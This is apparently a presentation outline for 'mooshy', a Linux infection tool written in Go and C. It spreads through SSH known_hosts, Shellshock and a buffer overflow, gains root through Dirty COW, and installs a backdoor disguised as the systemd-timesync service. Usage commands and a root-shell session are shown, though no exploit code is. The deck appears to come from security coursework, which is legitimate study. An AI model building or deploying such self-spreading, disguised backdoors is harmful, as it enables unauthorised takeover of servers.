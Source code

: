 % mooshy
% [ˈmuʃi]

# Introduction

## mooshy?
* Infection and execution of arbitrary code as root
* Targets Linux servers
* Exploits several user and kernel space vulns
* Written in Go with a touch of C

## Components
* `mooshy`: front-end for infection
* `moosh`: payload
* `cow`: exploit implementing Dirty COW
* `hhttpd`: a PoC web server to illustrate a buffer overflow

# 1. Infection

## SSH
* `$ mooshy -ssh -addr ...` _or_ `-sshKnown`
* Uses regular SSH access
* Connects to `addr` or addresses in `known_hosts` file
* Copies and executes the `moosh` binary

## Shellshock
* `$ mooshy -shellShock -addr ...`
* CVE-2014-6271
* Sends a GET request to the specified `addr`
* Embedded script downloads `moosh` and executes it

## Buffer overflow
* `$ mooshy -bufferOverflow -addr ...`
* Using buffer overflow in `hHTTPd`
* Injects shellcode
* Again, downloads `moosh` and executes it

# 2. Escalation

## Dirty COW
* CVE-2016-5195
* Gains root
* ![Dirty COW](https://upload.wikimedia.org/wikipedia/commons/1/1b/DirtyCow.svg)

# 3. Backdoor

## Installation
* Installs the backdoor on the system
* Disguised as `systemd-timesync` service
* Cleans up temporary files

## Invocation
```sh
$ mooshy -addr 192.168.56.102:22 # any open port
TCP socket opened on 0.0.0.0:42424
Received connection from 192.168.56.102:39414
root@cow:/# 
```

# Demo {data-background-image="https://media.giphy.com/media/Gr2A63jJz1fFe/giphy.gif"}

